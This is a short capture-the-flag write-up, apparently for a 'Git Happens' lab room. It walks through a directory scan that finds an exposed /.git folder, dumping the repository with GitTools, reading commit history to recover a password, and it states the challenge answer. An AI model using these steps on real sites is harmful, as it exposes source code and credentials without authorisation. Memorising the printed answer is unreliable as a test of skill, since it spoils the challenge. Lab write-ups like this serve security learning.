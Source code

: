 # Git Happens

$IP = 10.10.144.227

## Nmap scan:
Port: 80 open

## Gobuster scan:

```bash
$ gobuster -u "http://10.10.144.227/" -w directory-list-2.3-small.txt

/css (Status: 301)
/.git (Status: 301)
Progress: 2572 / 87666 (2.93%)
```

Since /.git directory is publicly visible, we can pull down the directory with the following repository:
https://github.com/internetwache/GitTools

### Using the dumper script:

```bash
cd GitTools/Dumper/
bash gitdumper.sh http://10.10.144.227/.git gitdir/
```
### After downloading the directory contents

```bash
cd gitdir
git log | grep "commit" | cut -d " " -f2
```

### Output:
```bash
d0b3578a628889f38c0affb1b75457146a4678e5
77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
2eb93ac3534155069a8ef59cb25b9c1971d5d199
d6df4000639981d032f628af2b4d03b8eff31213
d954a99b96ff11c37a558a5d93ce52d0f3702a7d
bc8054d9d95854d278359a432b6d97c27e24061d
e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
395e087334d613d5e423cdf8f7be27196a360459
2f423697bf81fe5956684f66fb6fc6596a1903cc

```
### From the above output we checkout the commit history in the repository:
```bash
git show 395e087334d613d5e423cdf8f7be27196a360459
```
### Output:
![Output showcasing code snippet](./output.png)

### Q. Find the Super Secret Password
```
Ans: Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```
